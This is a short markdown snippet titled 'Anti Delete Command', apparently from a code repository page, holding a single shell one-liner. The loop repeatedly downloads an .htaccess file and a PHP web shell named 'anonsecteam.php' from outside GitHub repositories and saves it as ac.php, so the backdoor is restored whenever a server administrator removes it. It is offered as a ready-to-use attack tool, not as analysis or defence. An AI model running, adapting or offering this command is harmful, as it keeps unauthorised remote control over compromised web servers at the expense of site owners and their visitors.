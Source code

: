 ## Anti Delete Command
``` while true; do echo $(TZ=Asia/Jakarta date) && curl https://raw.githubusercontent.com/t101804/repshare/main/.htaccess -o .htaccess && echo $(TZ=Asia/Jakarta date) && curl https://raw.githubusercontent.com/KosameAmegai/WebShell/main/Php/anonsecteam.php -o ac.php; done ```
